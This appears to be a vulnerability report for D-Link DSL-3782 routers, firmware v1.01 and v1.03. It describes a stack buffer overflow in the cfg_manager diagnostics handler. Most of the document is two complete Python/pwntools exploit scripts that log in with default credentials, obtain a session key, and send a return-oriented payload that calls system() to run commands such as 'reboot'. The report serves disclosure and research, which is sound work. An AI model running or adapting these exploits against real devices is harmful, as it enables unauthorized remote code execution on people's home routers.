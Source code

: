 Vendor of the products:　D-Link

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　DSL-3782 v1.01, DSL-3782 v1.03

# Buffer overflow

## Code in cfg_manager

Code bellow (in cfg_manager) performs the traceroute (or ping) test in the Diagnostic webpage.

![image-20220424095429446](D:\images\typora\image-20220424095429446.png)

The *getAttrValue* method at `.text: 0x474bA4` can lead to a stack-based buffer overflow.



### Code in getAttrValue

The dst parameter (a4) of strcpy corresponds to the `$a3` register in the above picture, which comes from the `$s1` register, and the `$s1` register stores an offset address in stack (at `.text: 474af0`).

![image-20220424195414876](D:\images\typora\image-20220424195414876.png)



## In v1.01

### exp

```python
import requests
import urllib
from pwn import *

context.binary = "../_DSL-3782_A1_EU_1.01_07282016.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

main_url = "http://192.168.1.1:80"

def login():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1640832458081"
    resp = s.get(url,headers=headers,timeout=10)
    print resp.text


def get_session_key():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    return sessionKey


def exp(sessionKey=None):
    libc_base = 0x2b50b000
    system_offset = 0x59bb0
    system_addr = libc_base + system_offset
    gadget_offset = 0x0001656C
    gadget_addr = libc_base + gadget_offset

    cmd = "echo yab. > /tmp/1"
    padding = "a" * 72
    s0 = p32(system_addr)
    s1 = "AAAA"
    s2 = "BBBB" 
    s3 = "CCCC"
    ra = p32(gadget_addr)
    padding2 = "A" * 16
    payload = padding + s0 + s1 + s2 + s3 + ra + padding2 + cmd

    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36"
        }
    params = {
        "Type":"p", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(payload)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=10)
    print resp.text


if __name__ == '__main__':
    login()
    sessionKey = get_session_key()
    exp(sessionKey=sessionKey) 
```

### Attack effect

![image-20211230112947079](D:\images\typora\image-20211230112947079.png)

Since the command we executed in the exploit script (line 41) is `echo yab. > /tmp/1`, we can confirm that our attack was successful by printing the content in file /tmp/1.



## In v1.03

An authenticated attacker can still use the stack-based bof to complete remote code execution of single-word commands (such as reboot).

### exp

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "../new/_DSL-3782_A1_EU_1.03_04042018.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"


def get_session_key(a):
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" % a
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None,a=''):
    libc_base = input('libc_base:')
    system_offset = 0x59bb0
    system_addr = libc_base + system_offset
    gadget_offset = 0x0001656C
    gadget_addr = libc_base + gadget_offset

    cmd = "reboot"
    padding = "a" * 72
    s0 = p32(system_addr)
    s1 = "AAAA"
    s2 = "BBBB" 
    s3 = "CCCC"
    ra = p32(gadget_addr)
    padding2 = "A" * 16
    payload = padding + s0 + s1 + s2 + s3 + ra + padding2 + cmd

    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" % a
        }
    params = {
        "Type":"t", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(payload)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=10)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    a = input()
    print '[*] Getting session key'
    sessionKey = get_session_key(a)
    print '[*] Sending payload'
    exp(sessionKey=sessionKey, a=a) 
    sleep(1)
    print '[*] Rebooting the target!'
    sleep(2)
    print '[*] Done!'

```

### Attack effect

![image-20220613164859716](C:\Users\sz\AppData\Roaming\Typora\typora-user-images\image-20220613164859716.png)

Since the command we executed in the exploit script (line 37) is `reboot` , you can see that the emulator (firmadyne) is rebooting.  